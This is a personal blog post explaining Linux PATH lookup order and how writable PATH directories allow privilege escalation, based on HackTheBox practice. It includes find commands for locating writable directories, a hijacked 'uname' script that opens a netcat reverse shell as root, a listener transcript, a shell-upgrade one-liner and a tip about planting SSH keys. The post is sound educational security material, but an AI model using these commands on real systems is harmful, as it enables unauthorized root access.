```yaml
---
layout: post
title:  "$PATH and Linux privilege escalation"
description: "A note concerning privilege escalation in Linux by abusing path priorities."
tag: linux privesc
---
```


# Path priority is important

A short note on why write permission could be a recipe for disaster.

When Linux is looking for a path to execute binary called like:

```console
marek@marek-mint:~$ python
Python 2.7.15+ (default, Nov 27 2018, 23:36:35) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
It will check paths in order defined in PATH environmental variable, like this:

```console
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

So from left to right:

```console
marek@marek-mint:~$ file /usr/local/bin/python
/usr/local/bin/python: cannot open `/usr/local/bin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/sbin/python
/usr/sbin/python: cannot open `/usr/sbin/python' (No such file or directory)
marek@marek-mint:~$ file /usr/bin/python
/usr/bin/python: symbolic link to python2.7
```
Found a symlink, executes, the actual binary is:

```console
marek@marek-mint:~$ readlink -f /usr/bin/python
/usr/bin/python2.7
```

Apparently there.

# Privilege escalation

This method may be used to escalate privileges if our user has write permission to a directory another user or even root executed binaries from. So if let's say root executes a perl script and we can't tamper with the script maybe we can tamper with the interpreter binary itself. If it's possible to replace the binary with eg. a bash script with commands to execute, they will execute as root and escalate privileges this way.

There may be a situation we don't even have to overwrite the binary, because if we put a malicious script named "perl" in a location that takes precedence in the PATH eg. */usr/local/sbin/perl* then it will be executed instead. Always look for writable locations during privilege escalation attempts.

Finding writable locations:
```console
find / -writable -type d 2>/dev/null      # world-writeable folders
find / -perm -222 -type d 2>/dev/null     # world-writeable folders
find / -perm -o w -type d 2>/dev/null     # world-writeable folders
```
Source: [g0tm1k](http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation)

So there was a script running as root with cron calling "uname". I created an executable script:

```console
user@remotemachine:~$ cat uname
#!/bin/sh

nc -e '/bin/sh' 10.0.0.3 9001
```
which would create a reverse shell as root to my local machine 10.0.0.3 listening on port 9001. 

```console
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.0.0.3] from (UNKNOWN) [10.0.0.4] 38682
whoami
root
```

Most of the time it's a good idea to upgrade shell like this:
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Of course nc might have not been installed on the remote box but any available command may be called as root this way. You may for example push your public key to authorized_keys of another user or root and login with SSH.

I've learned this during my [HackTheBox](https://hackthebox.eu) hacking attempts, a platform which I recommend as it has a great number of machines and challenges and a supportive community.
